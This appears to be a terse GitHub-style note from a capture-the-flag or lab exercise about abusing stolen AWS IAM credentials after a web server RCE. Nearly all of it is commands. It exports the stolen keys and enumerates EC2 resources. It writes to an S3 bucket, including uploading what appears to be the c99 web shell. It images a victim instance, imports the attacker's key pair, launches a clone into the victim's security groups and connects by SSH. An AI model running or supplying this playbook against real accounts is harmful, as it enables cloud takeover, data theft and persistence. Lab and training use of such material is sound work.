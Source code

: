 **Obtaining IAM Key allow you to create any instance, create Security group anything you could do whatever you want.there are several vector to obtain a valid IAM Key to laverage to compromise the entire dedicated network.** the dedicated web server was being running with known RCE which allow an attacker to execute os command in the context of application upon attacking against targeted system.nonetheless the system strictly forbid to have a reverse shell.

```
export AWS_DEFAULT_REGION=us-east-1
export AWS_ACCESS_KEY_ID=XXX
export AWS_SECRET_ACCESS_KEY=XXX
export AWS_SESSION_TOKEN=XXXX
```
# Basic Enumeration
```
aws ec2 describe-regions --output table
aws ec2 describe-addresses
aws ec2 describe-instance-status
aws ec2 describe-key-pairs
aws ec2 describe-instance-types
aws ec2 describe-network-acls
aws ec2 describe-security-groups
aws ec2 describe-snapshots

```



```
aws s3 ls  s3://ctfbucket-374385855887
aws s3 cp file.txt s3://ctfbucket-374385855887/test.txt
aws s3 cp c99.txt s3://ctfbucket-374385855887/c99.txt
http://s3.amazonaws.com/ctfbucket-374385855887
```


```
aws ec2 describe-instances
aws ec2 describe-instances --instance-ids i-01dae4002316c79e6
aws ec2 create-image --instance-id i-01dae4002316c79e6 --name "XXXX" --description "XXXX"
aws ec2 import-key-pair --key-name "XXXX" --public-key-material file://aws.pub
aws ec2 run-instances --image-id ami-069f61c4801753ffc --security-group-ids "sg-a5b42392" "sg-0ed973a145df7fa29" "sg-07144a98dc383a311" --count 1 --instance-type t2.micro --key-name  --query "Instances[0].InstanceId"
aws ec2 run-instances --image-id ami-069f61c4801753ffc --security-group-ids "sg-a5b42392" "sg-0ed973a145df7fa29" "sg-07144a98dc383a311" --subnet-id subnet-7aefab74 --count 1 --instance-type t2.micro --key-name XXXX --query "Instances[0].InstanceId"
aws ec2 describe-instances --instance-ids i-01dae4002316c79e6 --query "Reservations[0].Instances[0].PublicIpAddress"
ssh -i aws_terraform ubuntu@3.238.62.143
```
